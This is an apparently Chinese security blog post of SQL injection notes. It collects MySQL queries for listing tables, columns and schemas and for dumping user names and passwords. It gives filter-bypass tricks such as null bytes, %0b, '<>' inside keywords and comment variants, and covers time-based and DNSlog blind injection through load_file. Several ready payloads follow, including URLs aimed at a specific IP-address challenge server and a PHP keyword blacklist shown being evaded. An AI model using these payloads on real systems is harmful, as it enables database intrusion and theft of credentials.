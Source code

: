 ```yaml
---
title: sql注入大全
date: 2018-03-21 09:26:16
tags: 
- 安全
- sql注入
categories: 
- 安全
- sql注入
---
```

- 表名

  ```mysql
  select group_concat(distinct table_name) from information_schema.tables where table_schema=database()
  ```


- 列名

  ```mysql
  select group_concat(distinct column_name) from information_schema.columns where table_name=[16进制|`table_name`]
  ```


- 数据库

  ```mysql
  select group_concat(schema_name) from information_schema.schemata
  ```

- 表内容

  ```mysql
  select 1,concat(user, 0x2c, password) from [table_name]
  ```

  ​
```
优先级 运算符
(最高)  !
    -（负号）,~（按位取反）
    ^（按位异或）
    *,/(DIV),%(MOD)
    +,-
    >>,<<
    &
    |
    =(比较运算),<=>,<,<=,>,>=,!=,<>,IN,IS NULL,LIKE,REGEXP
   BETWEEN AND,CASE,WHEN,THEN,ELSE
   NOT
   &&,AND
   XOR
   ||,OR
(最低)    =(赋值运算),:=
```

# union select 不允许同时出现
过滤正则表达式如下:
<code>	
union[\s\xA0]+select
</code><br/>
可以使用union all select绕过

# select过滤
se%00lect绕过

# -- 注释
--后边不允许添加任何空白字符
过滤正则表达式如下:
--[\s\xA0]
还可以使用%1a
--%1a绕过

# where后边跟着sleep函数
`
select * from table_name where sleep(2) or 1 = 2;
`

如果1=2，则会等待（2*该表中的记录数）秒，没有数据返回
如果1=1，则会立即返回所有数据

@`'` 相当于 NULL

select group_concat(ip)'' from client_ip;

# DNSlog盲注
DNSlog盲注需要用的load_file()函数，所以一般得是root权限。show variables like '%secure%';查看load_file()可以读取的磁盘。

1、当secure_file_priv为空，就可以读取磁盘的目录。

2、当secure_file_priv为G:\，就可以读取G盘的文件。

3、当secure_file_priv为null，load_file就不能加载文件。


sleep 不能填数字，可以使用pi()替代

各种payload:
```
select * from antisqli where `id`='\' and `pw`=md5(' union select 1,2,3--')
```

```
644400 union select 'z1',flag,'z3','z4' from flag order by password desc#
```

关键词union,select,from被过滤，可以考虑%00绕过

```
//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
	if (substr_count($id, $value) > 0)
	{
		exit('包含敏感关键字！'.$value);
	}
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
payload:
http://103.238.227.13:10087/?id=2 unio%00n se%00lect hash,2 fro%00m sql3.key#
由于strip_tags 将<>替换为空，所以可以使用<>绕过：
http://103.238.227.13:10087/?id=2 unio<>n se<>lect hash,2 fro%00m sql3.key#
```

某些情况下SQL关键词被过滤掉并且被替换成空格。因此我们用“%0b”来绕过。
id=1+uni%0bon+se%0blect+1,2,3--



## Mysql大小写不敏感，绕过检测



